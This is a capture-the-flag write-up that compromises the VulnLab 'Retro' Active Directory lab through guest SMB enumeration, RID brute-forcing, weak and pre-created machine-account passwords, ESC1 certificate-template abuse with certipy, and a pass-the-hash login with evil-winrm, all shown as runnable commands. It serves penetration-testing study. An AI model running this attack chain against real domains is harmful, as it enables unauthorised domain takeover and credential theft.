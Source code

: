 ```yaml
---
title: VulnLab -- Retro Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC1,ADCS,pre2k]
image:
    path: /images/Retro-banner.png
---
```

# Retro

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,3389,139,3268,636,49670,49669,389,445,135,49673,464,49664,49668,9389,53,49716 --min-rate=1000 10.10.95.73
```

![image.png](../images/retro.png)

now let’s try to enumerate the shares

```bash
nxc smb retro.vl -u 'guest' -p '' --shares --users
```

![image.png](../images/retro%201.png)

we found a share named Trainees so let’s connect to it 

```bash
smbclient \\\\retro.vl\\Trainees -U "retro.vl\guest"
```

![image.png](../images/retro%202.png)

As we see there is a file named Important so let’s download it and see it’s content

```bash
 get Important.txt
```

![image.png](../images/retro%203.png)

> Notice that we found a note saying that the students can’t remember strong passwords which mean that there password is weak
> 

Now let’s get the usernames

```bash
nxc smb retro.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/retro%204.png)

Now let’s save the whole result in a file and extract the names

```bash
cat result.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro%205.png)

and we got the users names

Now let’s test the user trainee with the password is the username and see if we can login

```bash
nxc smb retro.vl -u trainee -p trainee
```

![image.png](../images/retro%206.png)

> And we are authenticated!
> 

Now let’s enumerate the shares with the new user

```bash
nxc smb retro.vl -u trainee -p trainee --shares
```

![image.png](../images/retro%207.png)

Notice that we got access to the notes share so let’s go and connect to it

```bash
smbclient \\\\retro.vl\\Notes -U "retro.vl\trainee"
```

![image.png](../images/retro%208.png)

and we got access to a ToDo file so let’s download it and see it’s content

```bash
get ToDo.txt
```

![image.png](../images/retro%209.png)

> Notice that the note is referring that the environment have a pre created computer account so let’s try to abuse it
> 

Now let’s search for the pre created computer accounts and it’s passwords

```bash
poetry run pre2k auth -u trainee -p trainee -d retro.vl -dc-ip 10.10.95.73
```

![image.png](../images/retro%2010.png)

> Amazing we found that there is a computer named BANKING$ with password banking
username: BANKING$
password: banking
> 

now let’s get bloodhound 

```bash
bloodhound-python -ns 10.10.95.73 -d retro.vl -u trainee -p trainee -c all --zip
```

![image.png](../images/retro%2011.png)

Now open the bloodhound and let’s search for any interesting information 

![image.png](../images/retro%2012.png)

and we didn’t find anything interesting

let’s search for the certificate templates in the enviroment

```bash
 certipy-ad find -u trainee@retro.vl -p trainee -dc-ip 10.10.95.73
```

![image.png](../images/retro%2013.png)

Now let’s search for any ESC to abuse

```bash
cat 20250328163600_Certipy.txt | grep -i ESC -b40
```

![image.png](../images/retro%2014.png)

notice that we found a ESC1 vulnerability in a template named RetroClients and we can abuse it using the Banking$ computer we have

 Now let’s change the password of the banking computer

```bash
impacket-changepasswd retro.vl/BANKING$:banking@10.10.95.73 -altuser trainee -altpas trainee
```

![image.png](../images/retro%2015.png)

now let’s abuse the Vulnerable template

```bash
certipy-ad req -ca 'retro-DC-CA' -dc-ip '10.10.95.73' -u 'BANKING$' -p 'remo123$' -template 'RetroClients' -target 'dc.retro.vl' -upn 'administrator@retro.vl' -key-size 4096
```

![image.png](../images/retro%2016.png)

now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/retro%2017.png)

So as we have the administrator hash let’s go and login using it.

```bash
evil-winrm -i retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![image.png](../images/retro%2018.png)

and we did it we logged in as administrator 🥳 

No let’s go and get the root flag

```bash
cd C:\Users\Administrator\desktop
```

![image.png](../images/retro%2019.png)

Amazing we solved the machine 😍

![image.png](../images/retro%2020.png)

That’s it for the **Retro** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX